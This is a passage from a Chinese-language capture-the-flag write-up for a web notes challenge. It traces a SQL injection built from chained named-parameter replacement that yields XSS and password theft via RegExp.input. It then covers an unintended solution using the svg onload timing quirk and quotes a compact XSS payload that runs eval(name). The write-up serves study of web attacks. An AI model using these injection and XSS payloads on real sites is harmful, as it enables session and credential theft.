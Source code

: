 我們來看一下最後會變怎樣：

``` sql
// 一開始是
INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)

// 接著假設 id 是 123，就會變成
INSERT INTO notes VALUES ('123' :username, :note, :mode, 0)

// 再來 replace username，變成
INSERT INTO notes VALUES ('123', 'a :note', :note, :mode, 0)

// 再來是 note，要注意的是兩個 note 都會被 replace
INSERT INTO notes VALUES ('123', 'a ', :mode, 0, 0) -- '', ', :mode, 0, 0) -- ', :mode, 0)

// 最後是 mode，這時候我們已經可以控制 note 內容的值了，沒有任何限制
INSERT INTO notes VALUES ('123', 'a ', 'payload', 0, 0) -- '', ', 'payload', 0, 0) -- ', :mode, 0)
```

利用這個洞，就可以不依靠 markdown 來做 XSS，再利用 `RegExp.input` 這個神奇屬性拿到 password。

### 預期外解法

這題的預期外解法也是超帥，不需要 `RegExp.input` 了，利用的特性是底下這段程式碼：

``` js
document.querySelector('.note').innerHTML = text;
document.querySelector('.views').innerText = views;
```

這段程式碼你可能會預期插入 HTML 之後，會先繼續往下執行，然後才執行 HTML 裡面的內容，例如說：

``` html
<div id=x></div>
<div id=y>hello</div>
<script>
    x.innerHTML = '<img src=x onerror=alert(window.y.innerText)>'
    y.innerText = 'updated'
</script>
```

顯示出來的 alert 會是 `updated`，img 的事件確實是後來才執行，但如果是這樣寫的話就不一樣了：

``` html
<div id=x></div>
<div id=y>hello</div>
<script>
    x.innerHTML = '<svg><svg onload=alert(window.y.innerText)>'
    y.innerText = 'updated'
</script>
```

這樣寫的話，`onload` 裡的東西會在 `y.innerText = 'updated'` 之前執行，所以 alert 的內容會是 `hello`，這個 payload 其實也有記在 [tinyXSS](https://github.com/terjanq/Tiny-XSS-Payloads) 裡面：

``` html
<!-- In chrome, also works inside innerHTML, even on elements not yet inserted into DOM -->
<svg><svg/onload=eval(name)>
```
